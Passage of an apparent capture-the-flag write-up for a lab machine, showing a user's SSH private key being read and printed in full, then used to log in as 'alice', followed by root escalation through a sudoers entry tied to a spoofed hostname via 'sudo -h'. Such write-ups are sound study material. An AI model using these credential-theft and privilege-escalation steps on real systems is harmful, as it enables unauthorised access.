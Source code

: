 ```bash
$ cat /home/alice./ssh/id_rsa

-----BEGIN RSA PRIVATE KEY-----
MIIEpgIBAAKCAQEAxmPncAXisNjbU2xizft4aYPqmfXm1735FPlGf4j9ExZhlmmD
NIRchPaFUqJXQZi5ryQH6YxZP5IIJXENK+a4WoRDyPoyGK/63rXTn/IWWKQka9tQ
2xrdnyxdwbtiKP1L4bq/4vU3OUcA+aYHxqhyq39arpeceHVit+jVPriHiCA73k7g
HCgpkwWczNa5MMGo+1Cg4ifzffv4uhPkxBLLl3f4rBf84RmuKEEy6bYZ+/WOEgHl
fks5ngFniW7x2R3vyq7xyDrwiXEjfW4yYe+kLiGZyyk1ia7HGhNKpIRufPdJdT+r
NGrjYFLjhzeWYBmHx7JkhkEUFIVx6ZV1y+gihQIDAQABAoIBAQDAhIA5kCyMqtQj
X2F+O9J8qjvFzf+GSl7lAIVuC5Ryqlxm5tsg4nUZvlRgfRMpn7hJAjD/bWfKLb7j
/pHmkU1C4WkaJdjpZhSPfGjxpK4UtKx3Uetjw+1eomIVNu6pkivJ0DyXVJiTZ5jF
ql2PZTVpwPtRw+RebKMwjqwo4k77Q30r8Kxr4UfX2hLHtHT8tsjqBUWrb/jlMHQO
zmU73tuPVQSESgeUP2jOlv7q5toEYieoA+7ULpGDwDn8PxQjCF/2QUa2jFalixsK
WfEcmTnIQDyOFWCbmgOvik4Lzk/rDGn9VjcYFxOpuj3XH2l8QDQ+GO+5BBg38+aJ
cUINwh4BAoGBAPdctuVRoAkFpyEofZxQFqPqw3LZyviKena/HyWLxXWHxG6ji7aW
DmtVXjjQOwcjOLuDkT4QQvCJVrGbdBVGOFLoWZzLpYGJchxmlR+RHCb40pZjBgr5
8bjJlQcp6pplBRCF/OsG5ugpCiJsS6uA6CWWXe6WC7r7V94r5wzzJpWBAoGBAM1R
aCg1/2UxIOqxtAfQ+WDxqQQuq3szvrhep22McIUe83dh+hUibaPqR1nYy1sAAhgy
wJohLchlq4E1LhUmTZZquBwviU73fNRbID5pfn4LKL6/yiF/GWd+Zv+t9n9DDWKi
WgT9aG7N+TP/yimYniR2ePu/xKIjWX/uSs3rSLcFAoGBAOxvcFpM5Pz6rD8jZrzs
SFexY9P5nOpn4ppyICFRMhIfDYD7TeXeFDY/yOnhDyrJXcbOARwjivhDLdxhzFkx
X1DPyif292GTsMC4xL0BhLkziIY6bGI9efC4rXvFcvrUqDyc9ZzoYflykL9KaCGr
+zlCOtJ8FQZKjDhOGnDkUPMBAoGBAMrVaXiQH8bwSfyRobE3GaZUFw0yreYAsKGj
oPPwkhhxA0UlXdITOQ1+HQ79xagY0fjl6rBZpska59u1ldj/BhdbRpdRvuxsQr3n
aGs//N64V4BaKG3/CjHcBhUA30vKCicvDI9xaQJOKardP/Ln+xM6lzrdsHwdQAXK
e8wCbMuhAoGBAOKy5OnaHwB8PcFcX68srFLX4W20NN6cFp12cU2QJy2MLGoFYBpa
dLnK/rW4O0JxgqIV69MjDsfRn1gZNhTTAyNnRMH1U7kUfPUB2ZXCmnCGLhAGEbY9
k6ywCnCtTz2/sNEgNcx9/iZW+yVEm/4s9eonVimF+u19HJFOPJsAYxx0
-----END RSA PRIVATE KEY-----
```

Copying the contents of *id_rsa* file to attacker's machine and using ssh to connect to *alice*

```bash
ssh alice@10.10.89.5 -i id_rsa
```

Once logged in as alice. We can access that */etc/sudoer.d/alice* file

```bash
$ cat /etc/sudoers.d/alice 
alice ssalg-gnikool = (root) NOPASSWD: /bin/bash
```

Executing the following command we get:
```bash
$ sudo -l -h ssalg-gnikool
sudo: unable to resolve host ssalg-gnikool
Matching Defaults entries for alice on ssalg-gnikool:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on ssalg-gnikool:
    (root) NOPASSWD: /bin/bash
```

So *alice* can run `bash` as *root*. Switching to user *root*

```bash
sudo -h ssalg-gnikool /bin/bash
```

Now we are root, the flag is located at */root/root.txt*. It is again reversed hence just use `rev` to reverse the reversed string. 

